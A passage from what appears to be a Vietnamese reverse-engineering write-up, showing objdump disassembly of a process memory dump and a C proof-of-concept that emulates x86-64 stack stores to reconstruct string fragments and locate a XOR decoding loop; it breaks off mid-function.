 1dc09c336ab:   45 31 c0                xor    r8d,r8d
 1dc09c336ae:   48 b8 00 03 c3 09 dc    movabs rax,0x1dc09c30300
 1dc09c336b5:   01 00 00
 1dc09c336b8:   48 89 fa                mov    rdx,rdi
 1dc09c336bb:   ff d0                   call   rax
 1dc09c336bd:   48 89 f9                mov    rcx,rdi
 1dc09c336c0:   48 bd 00 00 c3 09 dc    movabs rbp,0x1dc09c30000
 1dc09c336c7:   01 00 00
 1dc09c336ca:   ff d5                   call   rbp
 1dc09c336cc:   eb 32                   jmp    0x1dc09c33700
 1dc09c336ce:   48 ba 00 88 c3 09 dc    movabs rdx,0x1dc09c38800
 1dc09c336d5:   01 00 00
 1dc09c336d8:   49 b9 d8 a9 c3 09 dc    movabs r9,0x1dc09c3a9d8
 1dc09c336df:   01 00 00
 1dc09c336e2:   48 b8 00 03 c3 09 dc    movabs rax,0x1dc09c30300
 1dc09c336e9:   01 00 00
 1dc09c336ec:   48 8d 4c 24 78          lea    rcx,[rsp+0x78]
 1dc09c336f1:   45 31 c0                xor    r8d,r8d
 1dc09c336f4:   ff d0                   call   rax
 1dc09c336f6:   48 bd 00 00 c3 09 dc    movabs rbp,0x1dc09c30000
 1dc09c336fd:   01 00 00
 1dc09c33700:   48 bf 3c b3 c3 09 dc    movabs rdi,0x1dc09c3b33c
 1dc09c33707:   01 00 00
 1dc09c3370a:   48 8d 5c 24 78          lea    rbx,[rsp+0x78]
 1dc09c3370f:   49 b9 18 aa c3 09 dc    movabs r9,0x1dc09c3aa18
 1dc09c33716:   01 00 00
 1dc09c33719:   49 bc 00 03 c3 09 dc    movabs r12,0x1dc09c30300
 1dc09c33720:   01 00 00
 1dc09c33723:   41 b0 01                mov    r8b,0x1
 1dc09c33726:   48 89 f9                mov    rcx,rdi
 1dc09c33729:   48 89 da                mov    rdx,rbx
 1dc09c3372c:   41 ff d4                call   r12
 1dc09c3372f:   48 89 d9                mov    rcx,rbx
 1dc09c33732:   ff d5                   call   rbp
 1dc09c33734:   48 8d 8c 24 88 00 00    lea    rcx,[rsp+0x88]
 1dc09c3373b:   00
 1dc09c3373c:   ff d5                   call   rbp
 1dc09c3373e:   48 8d 9c 24 f8 00 00    lea    rbx,[rsp+0xf8]
 1dc09c33745:   00
 1dc09c33746:   49 b9 28 aa c3 09 dc    movabs r9,0x1dc09c3aa28
 1dc09c3374d:   01 00 00
 1dc09c33750:   48 89 fa                mov    rdx,rdi
 1dc09c33753:   41 b0 01                mov    r8b,0x1
 1dc09c33756:   48 89 d9                mov    rcx,rbx
 1dc09c33759:   41 ff d4                call   r12
 1dc09c3375c:   4c 8d b4 24 b0 00 00    lea    r14,[rsp+0xb0]
 1dc09c33763:   00
 1dc09c33764:   49 b9 38 aa c3 09 dc    movabs r9,0x1dc09c3aa38
 1dc09c3376b:   01 00 00
 1dc09c3376e:   48 89 da                mov    rdx,rbx
 1dc09c33771:   45 31 c0                xor    r8d,r8d
 1dc09c33774:   4c 89 f1                mov    rcx,r14
 1dc09c33777:   41 ff d4                call   r12
 1dc09c3377a:   49 bf 70 ce 2f 0b dc    movabs r15,0x1dc0b2fce70
 1dc09c33781:   01 00 00
 1dc09c33784:   49 bd 40 1d f2 42 f6    movabs r13,0x7ff642f21d40
 1dc09c3378b:   7f 00 00
 1dc09c3378e:   48 8d 94 24 10 01 00    lea    rdx,[rsp+0x110]
 1dc09c33795:   00
 1dc09c33796:   4c 89 f9                mov    rcx,r15
 1dc09c33799:   41 ff d5                call   r13
 1dc09c3379c:   48 8d 94 24 48 01 00    lea    rdx,[rsp+0x148]
 1dc09c337a3:   00
 1dc09c337a4:   4c 89 f9                mov    rcx,r15
 1dc09c337a7:   41 ff d5                call   r13
 1dc09c337aa:   49 b9 48 aa c3 09 dc    movabs r9,0x1dc09c3aa48
 1dc09c337b1:   01 00 00
 1dc09c337b4:   48 89 f9                mov    rcx,rdi
 1dc09c337b7:   4c 89 f2                mov    rdx,r14
 1dc09c337ba:   41 b0 01                mov    r8b,0x1
 1dc09c337bd:   41 ff d4                call   r12
 1dc09c337c0:   4c 89 f1                mov    rcx,r14
 1dc09c337c3:   ff d5                   call   rbp
 1dc09c337c5:   48 89 d9                mov    rcx,rbx
 1dc09c337c8:   ff d5                   call   rbp
 1dc09c337ca:   49 b9 58 aa c3 09 dc    movabs r9,0x1dc09c3aa58
 1dc09c337d1:   01 00 00
 1dc09c337d4:   48 8d 4c 24 58          lea    rcx,[rsp+0x58]
 1dc09c337d9:   48 89 fa                mov    rdx,rdi
 1dc09c337dc:   41 b0 01                mov    r8b,0x1
 1dc09c337df:   41 ff d4                call   r12
 1dc09c337e2:   48 8d bc 24 98 00 00    lea    rdi,[rsp+0x98]
 1dc09c337e9:   00
 1dc09c337ea:   48 ba 28 9d c3 09 dc    movabs rdx,0x1dc09c39d28
 1dc09c337f1:   01 00 00
 1dc09c337f4:   49 b9 68 aa c3 09 dc    movabs r9,0x1dc09c3aa68
 1dc09c337fb:   01 00 00
 1dc09c337fe:   45 31 c0                xor    r8d,r8d
 1dc09c33801:   48 89 f9                mov    rcx,rdi
 1dc09c33804:   41 ff d4                call   r12
 1dc09c33807:   48 8b 54 24 5c          mov    rdx,QWORD PTR [rsp+0x5c]
 1dc09c3380c:   48 89 f9                mov    rcx,rdi
 1dc09c3380f:   48 b8 60 00 c3 09 dc    movabs rax,0x1dc09c30060
 1dc09c33816:   01 00 00
 1dc09c33819:   ff d0                   call   rax
 1dc09c3381b:   84 c0                   test   al,al
 1dc09c3381d:   0f 84 80 02 00 00       je     0x1dc09c33aa3
 1dc09c33823:   48 b9 70 ce 2f 0b dc    movabs rcx,0x1dc0b2fce70
 1dc09c3382a:   01 00 00
 1dc09c3382d:   48 b8 20 c9 f2 42 f6    movabs rax,0x7ff642f2c920
 1dc09c33834:   7f 00 00
 1dc09c33837:   ba 02 00 00 00          mov    edx,0x2
 1dc09c3383c:   41 b8 01 00 00 00       mov    r8d,0x1
 1dc09c33842:   41 b9 08 00 59 00       mov    r9d,0x590008
 1dc09c33848:   48 89 7c 24 20          mov    QWORD PTR [rsp+0x20],rdi
 1dc09c3384d:   ff d0                   call   rax
 1dc09c3384f:   48 8d 4c 24 58          lea    rcx,[rsp+0x58]
 1dc09c33854:   ff d5                   call   rbp
 1dc09c33856:   48 8d 8c 24 98 00 00    lea    rcx,[rsp+0x98]
 1dc09c3385d:   00
 1dc09c3385e:   ff d5                   call   rbp
```

</details>

**Làm tương tự với vùng nhớ RW bắt đầu tại `0x000001DC177ED913`**

\- Với khoảng hẹp tương ứng, dùng:

```
objdump -D -b binary -m i386:x86-64 -Mintel \
    --adjust-vma=0x000001DC177ED913 \
    --start-address=0x000001DC177F187B \
    --stop-address=0x000001DC177F2006 \
    /mnt/c/Tools/release/x64/memdumps/memdump_458_000001DC177ED913_30000.bin
```

### 8. Dựng lại logic bằng C

\- Tiến hành xây dựng mã nguồn PoC bằng C để tái dựng dữ liệu từ memory dump

\- Chương trình được viết dựa trên luồng dữ liệu và luồng điều khiển của output lệnh objdump. Bao gồm:
+ Xác định dữ liệu được tạo trên stack
+ Xác định vị trí và độ dài fragment
+ Phân tích chức năng của helper (Hàm phụ, được gọi gián tiếp qua lệnh `call r14`)
+ Xác định thứ tự ghép dữ liệu
+ Khôi phục vòng lặp XOR

<details>
    <summary>rick36_poc.c</summary>

```
#include <inttypes.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define REGISTER_COUNT 16U
#define UNKNOWN_STACK_OFFSET SIZE_MAX

typedef struct {
    uint8_t *bytes;
    size_t length;
    size_t capacity;
} ByteBuffer;

typedef struct {
    uint8_t *bytes;
    uint8_t *known;
    size_t length;
    size_t capacity;
} StackState;

typedef enum {
    REGISTER_UNKNOWN = 0,
    REGISTER_IMMEDIATE,
    REGISTER_STACK_ADDRESS
} RegisterKind;

typedef struct {
    RegisterKind kind;
    uint64_t value;
    size_t stack_offset;
} RegisterState;

typedef struct {
    size_t length;
    unsigned reg;
    uint64_t value;
} MovabsInfo;

typedef struct {
    size_t length;
    size_t stack_offset;
    size_t immediate_offset;
    size_t immediate_length;
    size_t write_length;
    int sign_extend;
} DirectStoreInfo;

typedef struct {
    size_t length;
    unsigned reg;
    size_t stack_offset;
} LeaInfo;

typedef struct {
    size_t length;
    unsigned reg;
} RegisterMemoryMoveInfo;

typedef struct {
    size_t call_offset;
    size_t source_lea_offset;
    size_t source_offset;
    size_t destination_offset;
    size_t fragment_length;
    ByteBuffer bytes;
} CallRecord;

typedef struct {
    CallRecord *items;
    size_t length;
    size_t capacity;
} CallList;

typedef struct {
    size_t destination_offset;
    size_t call_count;
    ByteBuffer bytes;
} OutputGroup;

typedef struct {
    OutputGroup *items;
    size_t length;
    size_t capacity;
} GroupList;

typedef struct {
    int valid;
    size_t anchor_offset;
    size_t phase_end;
    size_t xor_offset;
    CallList calls;
    GroupList groups;
} Candidate;

static int range_is_valid(size_t offset, size_t length, size_t total)
{
    return offset <= total && length <= total - offset;
}

static uint32_t read_u32(const uint8_t *bytes)
{
    uint32_t value;
    memcpy(&value, bytes, sizeof(value));
    return value;
}

static uint64_t read_u64(const uint8_t *bytes)
{
    uint64_t value;
    memcpy(&value, bytes, sizeof(value));
    return value;
}

static int buffer_reserve(ByteBuffer *buffer, size_t required)
{
    if (required <= buffer->capacity) {
        return 1;
    }

    size_t new_capacity = buffer->capacity == 0 ? 32 : buffer->capacity;
    while (new_capacity < required) {
        if (new_capacity > SIZE_MAX / 2) {
            new_capacity = required;
            break;
        }
        new_capacity *= 2;
    }

    uint8_t *new_bytes = realloc(buffer->bytes, new_capacity);
    if (new_bytes == NULL) {
        return 0;
    }

    buffer->bytes = new_bytes;
    buffer->capacity = new_capacity;
    return 1;
}

static int buffer_append(ByteBuffer *buffer,
                          const uint8_t *bytes,
                          size_t length)
{
    if (length > SIZE_MAX - buffer->length) {
        return 0;
    }

    size_t required = buffer->length + length;
    if (!buffer_reserve(buffer, required)) {
        return 0;
    }

    if (length != 0) {
        memcpy(buffer->bytes + buffer->length, bytes, length);
    }
    buffer->length = required;
    return 1;
}

static void buffer_free(ByteBuffer *buffer)
{
    free(buffer->bytes);
    buffer->bytes = NULL;
    buffer->length = 0;
    buffer->capacity = 0;
}

static int stack_reserve(StackState *stack, size_t required)
{
    if (required <= stack->capacity) {
        return 1;
    }

    size_t new_capacity = stack->capacity == 0 ? 64 : stack->capacity;
    while (new_capacity < required) {
        if (new_capacity > SIZE_MAX / 2) {
            new_capacity = required;
            break;
        }
        new_capacity *= 2;
    }

    uint8_t *new_bytes = malloc(new_capacity);
    uint8_t *new_known = calloc(new_capacity, sizeof(*new_known));
    if (new_bytes == NULL || new_known == NULL) {
        free(new_bytes);
        free(new_known);
        return 0;
    }

    if (stack->capacity != 0) {
        memcpy(new_bytes, stack->bytes, stack->capacity);
        memcpy(new_known, stack->known, stack->capacity);
    }

    free(stack->bytes);
    free(stack->known);
    stack->bytes = new_bytes;
    stack->known = new_known;
    stack->capacity = new_capacity;
    return 1;
}

static int stack_write_bytes(StackState *stack,
                             size_t offset,
                             const uint8_t *bytes,
                             size_t length)
{
    if (length > SIZE_MAX - offset) {
        return 0;
    }

    size_t end = offset + length;
    if (!stack_reserve(stack, end)) {
        return 0;
    }

    if (length != 0) {
        memcpy(stack->bytes + offset, bytes, length);
        memset(stack->known + offset, 1, length);
    }
    if (end > stack->length) {
        stack->length = end;
    }
    return 1;
}

static int stack_write_unknown(StackState *stack,
                               size_t offset,
                               size_t length)
{
    if (length > SIZE_MAX - offset) {
        return 0;
    }

    size_t end = offset + length;
    if (!stack_reserve(stack, end)) {
        return 0;
    }

    if (length != 0) {
        memset(stack->known + offset, 0, length);
    }
    if (end > stack->length) {
        stack->length = end;
    }
    return 1;
}

static int stack_read_bytes(const StackState *stack,
                            size_t offset,
                            uint8_t *destination,
                            size_t length)
{
    if (!range_is_valid(offset, length, stack->length)) {
        return 0;
    }

    for (size_t i = 0; i < length; ++i) {
        if (stack->known[offset + i] == 0) {
            return 0;
        }
    }

    if (length != 0) {
        memcpy(destination, stack->bytes + offset, length);
    }
    return 1;
}

static void stack_free(StackState *stack)
{
    free(stack->bytes);
    free(stack->known);
    stack->bytes = NULL;
    stack->known = NULL;
    stack->length = 0;
    stack->capacity = 0;
}

static void register_set_unknown(RegisterState *reg)
{
    reg->kind = REGISTER_UNKNOWN;
    reg->value = 0;
    reg->stack_offset = UNKNOWN_STACK_OFFSET;
}

static void register_set_immediate(RegisterState *reg, uint64_t value)
{
    reg->kind = REGISTER_IMMEDIATE;
    reg->value = value;
    reg->stack_offset = UNKNOWN_STACK_OFFSET;
}

static void register_set_stack_address(RegisterState *reg, size_t offset)
{
    reg->kind = REGISTER_STACK_ADDRESS;
    reg->value = 0;
    reg->stack_offset = offset;
}

static uint8_t *load_dump(const char *path, size_t *dump_size)
{
    FILE *file = fopen(path, "rb");
    if (file == NULL) {
        perror(path);
        return NULL;
    }

    if (fseek(file, 0, SEEK_END) != 0) {
        perror("fseek");
        fclose(file);
        return NULL;
    }

    long file_size = ftell(file);
    if (file_size < 0 || fseek(file, 0, SEEK_SET) != 0) {
        perror("ftell/fseek");
        fclose(file);
        return NULL;
    }

    size_t size = (size_t)file_size;
    uint8_t *dump = malloc(size == 0 ? 1 : size);
    if (dump == NULL) {
        perror("malloc");
        fclose(file);
        return NULL;
    }

    if (fread(dump, 1, size, file) != size) {
        fprintf(stderr, "cannot read the complete dump\n");
        free(dump);
        fclose(file);
        return NULL;
    }

    fclose(file);
    *dump_size = size;
    return dump;
}

/* Giải mã lệnh REX.W movabs reg, imm64. */
static int decode_movabs(const uint8_t *dump,
                         size_t dump_size,
                         size_t offset,
                         MovabsInfo *info)
{
    if (!range_is_valid(offset, 10, dump_size)) {
        return 0;
    }

    uint8_t rex = dump[offset];
    uint8_t opcode = dump[offset + 1];
    if ((rex & 0xf0U) != 0x40U || (rex & 0x08U) == 0 ||
        opcode < 0xb8U || opcode > 0xbfU) {
        return 0;
    }

    info->length = 10;
    info->reg = (unsigned)(opcode - 0xb8U) +
                ((rex & 0x01U) != 0 ? 8U : 0U);
    info->value = read_u64(dump + offset + 2);
    return 1;
}

/* Giải mã toán hạng bộ nhớ dạng [rsp+disp]. */
static int decode_rsp_operand(const uint8_t *dump,
                              size_t dump_size,
                              size_t modrm_offset,
                              uint8_t rex,
                              size_t *end_offset,
                              size_t *stack_offset,
                              unsigned *reg)
{
    if (!range_is_valid(modrm_offset, 2, dump_size)) {
        return 0;
    }

    uint8_t modrm = dump[modrm_offset];
    unsigned mod = (unsigned)(modrm >> 6);
    unsigned rm = (unsigned)(modrm & 0x07U);
    if (mod == 3U || rm != 4U) {
        return 0;
    }

    size_t cursor = modrm_offset + 1;
    uint8_t sib = dump[cursor++];
    unsigned index = (unsigned)((sib >> 3) & 0x07U);
    unsigned base = (unsigned)(sib & 0x07U);

    /* SIB 0x24 là [rsp]; loại r12 và địa chỉ có index. */
    if (index != 4U || (rex & 0x02U) != 0 || base != 4U ||
        (rex & 0x01U) != 0) {
        return 0;
    }

    int64_t displacement = 0;
    if (mod == 1U) {
        if (!range_is_valid(cursor, 1, dump_size)) {
            return 0;
        }
        displacement = (int8_t)dump[cursor++];
    } else if (mod == 2U) {
        if (!range_is_valid(cursor, 4, dump_size)) {
            return 0;
        }
        displacement = (int32_t)read_u32(dump + cursor);
        cursor += 4;
    }

    if (displacement < 0) {
        return 0;
    }

    *end_offset = cursor;
    *stack_offset = (size_t)displacement;
    *reg = (unsigned)((modrm >> 3) & 0x07U) +
           ((rex & 0x04U) != 0 ? 8U : 0U);
    return 1;
}

/* Giải mã C6/C7 /0 ghi dữ liệu vào [rsp+disp]. */
static int decode_direct_stack_store(const uint8_t *dump,
                                     size_t dump_size,
                                     size_t offset,
                                     DirectStoreInfo *info)
{
    if (!range_is_valid(offset, 1, dump_size)) {
        return 0;
    }

    size_t cursor = offset;
    uint8_t rex = 0;
    int operand_size_16 = 0;

    /* Chấp nhận thứ tự prefix thường do mã sinh ra sử dụng. */
    while (range_is_valid(cursor, 1, dump_size)) {
        uint8_t byte = dump[cursor];
        if (byte == 0x66U) {
            operand_size_16 = 1;
            ++cursor;
        } else if ((byte & 0xf0U) == 0x40U) {
            rex = byte;
            ++cursor;
        } else {
            break;
        }
    }

    if (!range_is_valid(cursor, 2, dump_size)) {
        return 0;
    }

    uint8_t opcode = dump[cursor++];
    if (opcode != 0xc6U && opcode != 0xc7U) {
        return 0;
    }

    size_t end_operand = 0;
    size_t stack_offset = 0;
    unsigned reg = 0;
    if (!decode_rsp_operand(dump,
                            dump_size,
                            cursor,
                            rex,
                            &end_operand,
                            &stack_offset,
                            &reg) ||
        reg != 0U) {
        return 0;
    }

    size_t immediate_length;
    size_t write_length;
    int sign_extend = 0;
    if (opcode == 0xc6U) {
        if (operand_size_16) {
            return 0;
        }
        immediate_length = 1;
        write_length = 1;
    } else if (operand_size_16) {
        immediate_length = 2;
        write_length = 2;
    } else {
        immediate_length = 4;
        write_length = (rex & 0x08U) != 0 ? 8 : 4;
        sign_extend = write_length == 8;
    }

    if (!range_is_valid(end_operand, immediate_length, dump_size)) {
        return 0;
    }

    info->length = end_operand + immediate_length - offset;
    info->stack_offset = stack_offset;
    info->immediate_offset = end_operand;
    info->immediate_length = immediate_length;
    info->write_length = write_length;
    info->sign_extend = sign_extend;
    return 1;
}

/* Giải mã REX.W lea reg,[rsp+disp]. */
static int decode_lea_rsp(const uint8_t *dump,
                          size_t dump_size,
                          size_t offset,
                          LeaInfo *info)
{
    if (!range_is_valid(offset, 2, dump_size)) {
        return 0;
    }

    uint8_t rex = dump[offset];
    if ((rex & 0xf0U) != 0x40U || (rex & 0x08U) == 0 ||
        dump[offset + 1] != 0x8dU) {
        return 0;
    }

    size_t end_operand = 0;
    size_t stack_offset = 0;
    unsigned reg = 0;
    if (!decode_rsp_operand(dump,
                            dump_size,
                            offset + 2,
                            rex,
                            &end_operand,
                            &stack_offset,
                            &reg)) {
        return 0;
    }

    info->length = end_operand - offset;
    info->reg = reg;
    info->stack_offset = stack_offset;
    return 1;
}

/* Giải mã REX.W mov [rsp+disp],reg. */
static int decode_mov_stack(const uint8_t *dump,
                            size_t dump_size,
                            size_t offset,
                            RegisterMemoryMoveInfo *info,
                            size_t *stack_offset)
{
    if (!range_is_valid(offset, 2, dump_size)) {
        return 0;
    }

    uint8_t rex = dump[offset];
    if ((rex & 0xf0U) != 0x40U || (rex & 0x08U) == 0 ||
        dump[offset + 1] != 0x89U) {
        return 0;
    }

    size_t end_operand = 0;
    size_t destination_offset = 0;
    unsigned source_reg = 0;
    if (!decode_rsp_operand(dump,
                            dump_size,
                            offset + 2,
                            rex,
                            &end_operand,
                            &destination_offset,
                            &source_reg)) {
        return 0;
    }

    info->length = end_operand - offset;
    info->reg = source_reg;
    *stack_offset = destination_offset;
    return 1;
}

/* Giải mã mov reg,reg để giữ lại giá trị immediate của thanh ghi. */
static int decode_mov_register(const uint8_t *dump,
                               size_t dump_size,
                               size_t offset,
                               unsigned *destination,
                               unsigned *source)
{
    if (!range_is_valid(offset, 3, dump_size)) {
        return 0;
    }

    uint8_t rex = dump[offset];
    uint8_t modrm = dump[offset + 2];
    if ((rex & 0xf0U) != 0x40U || (rex & 0x08U) == 0 ||
        dump[offset + 1] != 0x89U || (modrm >> 6) != 3U) {
        return 0;
    }

    *destination = (unsigned)((modrm >> 3) & 0x07U) +
                   ((rex & 0x04U) != 0 ? 8U : 0U);
    *source = (unsigned)(modrm & 0x07U) +
              ((rex & 0x01U) != 0 ? 8U : 0U);
    return 1;
}

static int is_call_r14(const uint8_t *dump, size_t dump_size, size_t offset)
{
    return range_is_valid(offset, 3, dump_size) &&
           dump[offset] == 0x41U && dump[offset + 1] == 0xffU &&
           dump[offset + 2] == 0xd6U;
}

static int is_printable_bytes(const uint8_t *bytes, size_t length)
{
    for (size_t i = 0; i < length; ++i) {
        if (bytes[i] < 0x20U || bytes[i] > 0x7eU) {
            return 0;
        }
    }
    return 1;
}

static int is_printable_movabs_anchor(const uint8_t *dump,
                                      size_t dump_size,
                                      size_t offset)
{
    MovabsInfo info;
    if (!decode_movabs(dump, dump_size, offset, &info)) {
        return 0;
    }

    uint8_t bytes[sizeof(info.value)];
    memcpy(bytes, &info.value, sizeof(bytes));
    return is_printable_bytes(bytes, sizeof(bytes));
}

static int call_list_append(CallList *list,
                            size_t call_offset,
                            size_t source_lea_offset,
                            size_t source_offset,
                            size_t destination_offset,
                            const uint8_t *bytes,
                            size_t fragment_length)
{
    if (list->length == list->capacity) {
        size_t new_capacity = list->capacity == 0 ? 8 : list->capacity * 2;
        if (new_capacity < list->capacity ||
            new_capacity > SIZE_MAX / sizeof(*list->items)) {
            return 0;
        }

        CallRecord *new_items = realloc(list->items,
                                        new_capacity * sizeof(*list->items));
        if (new_items == NULL) {
            return 0;
        }
        list->items = new_items;
        list->capacity = new_capacity;
    }

    CallRecord *record = &list->items[list->length];
    memset(record, 0, sizeof(*record));
    record->call_offset = call_offset;
    record->source_lea_offset = source_lea_offset;
    record->source_offset = source_offset;
    record->destination_offset = destination_offset;
    record->fragment_length = fragment_length;
    if (!buffer_append(&record->bytes, bytes, fragment_length)) {
        return 0;
    }

    ++list->length;
    return 1;
}

static void call_list_free(CallList *list)
{
    for (size_t i = 0; i < list->length; ++i) {
        buffer_free(&list->items[i].bytes);
    }
    free(list->items);
    list->items = NULL;
    list->length = 0;
    list->capacity = 0;
}

static int group_list_build(GroupList *groups, const CallList *calls)
{
    for (size_t i = 0; i < calls->length; ++i) {
        const CallRecord *call = &calls->items[i];
        OutputGroup *group = NULL;
        for (size_t j = 0; j < groups->length; ++j) {
            if (groups->items[j].destination_offset ==
                call->destination_offset) {
                group = &groups->items[j];
                break;
            }
        }

        if (group == NULL) {
            if (groups->length == groups->capacity) {
                size_t new_capacity =
                    groups->capacity == 0 ? 4 : groups->capacity * 2;
                if (new_capacity < groups->capacity ||
                    new_capacity > SIZE_MAX / sizeof(*groups->items)) {
                    return 0;
                }

                OutputGroup *new_items =
                    realloc(groups->items,
                            new_capacity * sizeof(*groups->items));
                if (new_items == NULL) {
                    return 0;
                }
                groups->items = new_items;
                groups->capacity = new_capacity;
            }

            group = &groups->items[groups->length++];
            memset(group, 0, sizeof(*group));
            group->destination_offset = call->destination_offset;
        }

        if (!buffer_append(&group->bytes,
                           call->bytes.bytes,
                           call->bytes.length)) {
            return 0;
        }
        ++group->call_count;
    }

    return 1;
}

static void group_list_free(GroupList *groups)
{
    for (size_t i = 0; i < groups->length; ++i) {
        buffer_free(&groups->items[i].bytes);
    }
    free(groups->items);
    groups->items = NULL;
    groups->length = 0;
    groups->capacity = 0;
}

static void candidate_free(Candidate *candidate)
{
    call_list_free(&candidate->calls);
    group_list_free(&candidate->groups);
    candidate->valid = 0;
}

static int find_xor_instruction(const uint8_t *dump,
                                size_t dump_size,
                                size_t start,
                                size_t *xor_offset)
{
    if (start > dump_size) {
        return 0;
    }

    for (size_t i = start; i + 3 <= dump_size; ++i) {
        if (dump[i] == 0x32U && dump[i + 1] == 0x04U &&
            dump[i + 2] == 0x39U) {
            *xor_offset = i;
            return 1;
        }
    }
    return 0;
}

static int apply_direct_store(const uint8_t *dump,
                              const DirectStoreInfo *store,
                              StackState *stack)
{
    uint8_t value[sizeof(uint64_t)] = {0};
    if (store->sign_extend) {
        int32_t signed_value = (int32_t)read_u32(dump + store->immediate_offset);
        uint64_t extended = (uint64_t)(int64_t)signed_value;
        memcpy(value, &extended, sizeof(extended));
    } else {
        memcpy(value,
               dump + store->immediate_offset,
               store->immediate_length);
    }

    return stack_write_bytes(stack,
                             store->stack_offset,
                             value,
                             store->write_length);
}

static int apply_register_stack_move(const RegisterState registers[],
                                     const RegisterMemoryMoveInfo *move,
                                     size_t stack_offset,
                                     StackState *stack)
{
    const RegisterState *source = &registers[move->reg];
    if (source->kind == REGISTER_IMMEDIATE) {
        uint8_t value[sizeof(source->value)];
        memcpy(value, &source->value, sizeof(value));
        return stack_write_bytes(stack, stack_offset, value, sizeof(value));
    }

    return stack_write_unknown(stack, stack_offset, sizeof(uint64_t));
}

static int encoded_length_from_register(const RegisterState *reg,
                                         size_t *length)
{
    if (reg->kind != REGISTER_IMMEDIATE ||
        (uint32_t)reg->value != 1U ||
        (reg->value >> 32) == 0 ||
        (reg->value >> 32) > SIZE_MAX) {
        return 0;
    }

    *length = (size_t)(reg->value >> 32);
    return 1;
}

static int try_candidate(const uint8_t *dump,
                         size_t dump_size,
                         size_t anchor_offset,
                         Candidate *candidate)
{
    memset(candidate, 0, sizeof(*candidate));
    candidate->anchor_offset = anchor_offset;

    StackState stack = {0};
    RegisterState registers[REGISTER_COUNT];
    for (size_t i = 0; i < REGISTER_COUNT; ++i) {
        register_set_unknown(&registers[i]);
    }

    int r14_known = 0;
    uint64_t r14_target = 0;
    int source_pending = 0;
    size_t source_offset = 0;
    size_t source_lea_offset = 0;
    int destination_pending = 0;
    size_t destination_offset = 0;
    int length_pending = 0;
    size_t fragment_length = 0;

    size_t cursor = anchor_offset;
    while (cursor < dump_size) {
        MovabsInfo movabs;
        if (decode_movabs(dump, dump_size, cursor, &movabs)) {
            if (movabs.reg == 14U) {
                if (r14_known && candidate->calls.length != 0 &&
                    movabs.value != r14_target) {
                    candidate->phase_end = cursor;
                    break;
                }
                r14_known = 1;
                r14_target = movabs.value;
            }

            register_set_immediate(&registers[movabs.reg], movabs.value);

            uint32_t low_word = (uint32_t)movabs.value;
            uint64_t encoded_length = movabs.value >> 32;
            if (low_word == 1U && encoded_length != 0 &&
                encoded_length <= SIZE_MAX) {
                length_pending = 1;
                fragment_length = (size_t)encoded_length;
            }

            cursor += movabs.length;
            continue;
        }

        DirectStoreInfo direct_store;
        if (decode_direct_stack_store(dump,
                                      dump_size,
                                      cursor,
                                      &direct_store)) {
            if (!apply_direct_store(dump, &direct_store, &stack)) {
                stack_free(&stack);
                candidate_free(candidate);
                return 0;
            }
            cursor += direct_store.length;
            continue;
        }

        LeaInfo lea;
        if (decode_lea_rsp(dump, dump_size, cursor, &lea)) {
            register_set_stack_address(&registers[lea.reg],
                                       lea.stack_offset);
            if (lea.reg == 7U) {
                destination_pending = 1;
                destination_offset = lea.stack_offset;
            } else if (lea.reg == 0U || lea.reg == 1U) {
                source_pending = 1;
                source_offset = lea.stack_offset;
                source_lea_offset = cursor;
            }
            cursor += lea.length;
            continue;
        }

        RegisterMemoryMoveInfo stack_move;
        size_t move_stack_offset = 0;
        if (decode_mov_stack(dump,
                             dump_size,
                             cursor,
                             &stack_move,
                             &move_stack_offset)) {
            if (!apply_register_stack_move(registers,
                                           &stack_move,
                                           move_stack_offset,
                                           &stack)) {
                stack_free(&stack);
                candidate_free(candidate);
                return 0;
            }

            /* Descriptor có thể dùng lại; lệnh store của nó cho biết độ dài call. */
            size_t stored_length = 0;
            if (encoded_length_from_register(&registers[stack_move.reg],
                                             &stored_length)) {
                length_pending = 1;
                fragment_length = stored_length;
            }

            cursor += stack_move.length;
            continue;
        }

        unsigned destination_reg = 0;
        unsigned source_reg = 0;
        if (decode_mov_register(dump,
                                dump_size,
                                cursor,
                                &destination_reg,
                                &source_reg)) {
            registers[destination_reg] = registers[source_reg];
            cursor += 3;
            continue;
        }

        if (is_call_r14(dump, dump_size, cursor)) {
            if (r14_known && source_pending && destination_pending &&
                length_pending && fragment_length != 0) {
                uint8_t *fragment = malloc(fragment_length);
                if (fragment == NULL ||
                    !stack_read_bytes(&stack,
                                      source_offset,
                                      fragment,
                                      fragment_length) ||
                    !is_printable_bytes(fragment, fragment_length) ||
                    !call_list_append(&candidate->calls,
                                      cursor,
                                      source_lea_offset,
                                      source_offset,
                                      destination_offset,
                                      fragment,
                                      fragment_length)) {
                    free(fragment);
                    stack_free(&stack);
                    candidate_free(candidate);
                    return 0;
                }
                free(fragment);
            }

            source_pending = 0;
            length_pending = 0;
            cursor += 3;
            continue;
        }

        ++cursor;
    }

    stack_free(&stack);

    /* Dump sau relocation có thể làm các pointer tuyệt đối thành 0; dùng
       các call, group và lệnh XOR làm bằng chứng chính. */
    if (candidate->calls.length == 0) {
        candidate_free(candidate);
        return 0;
    }

    const CallRecord *last_call =
        &candidate->calls.items[candidate->calls.length - 1];
    if (last_call->call_offset > SIZE_MAX - 3) {
        candidate_free(candidate);
        return 0;
    }
    candidate->phase_end = last_call->call_offset + 3;

    if (!find_xor_instruction(dump,
                              dump_size,
                              candidate->phase_end,
                              &candidate->xor_offset)) {
        candidate_free(candidate);
        return 0;
    }

    if (!group_list_build(&candidate->groups, &candidate->calls) ||
        candidate->groups.length < 2) {
        candidate_free(candidate);
        return 0;
    }

    size_t largest_group = 0;
    for (size_t i = 1; i < candidate->groups.length; ++i) {
        if (candidate->groups.items[i].bytes.length >
            candidate->groups.items[largest_group].bytes.length) {
            largest_group = i;
        }
    }

    size_t second_group = UNKNOWN_STACK_OFFSET;
    for (size_t i = 0; i < candidate->groups.length; ++i) {
        if (i == largest_group) {
            continue;
        }
        if (second_group == UNKNOWN_STACK_OFFSET ||
            candidate->groups.items[i].bytes.length <
                candidate->groups.items[second_group].bytes.length) {
            second_group = i;
        }
    }

    if (second_group == UNKNOWN_STACK_OFFSET ||
        candidate->groups.items[largest_group].bytes.length <=
            candidate->groups.items[second_group].bytes.length) {
        candidate_free(candidate);
        return 0;
    }

    candidate->valid = 1;
    return 1;
}

static int candidate_is_better(const Candidate *left,
                               const Candidate *right)
{
    if (!right->valid) {
        return 1;
    }
    if (left->calls.length != right->calls.length) {
        return left->calls.length > right->calls.length;
    }

    size_t left_largest = 0;
    size_t right_largest = 0;
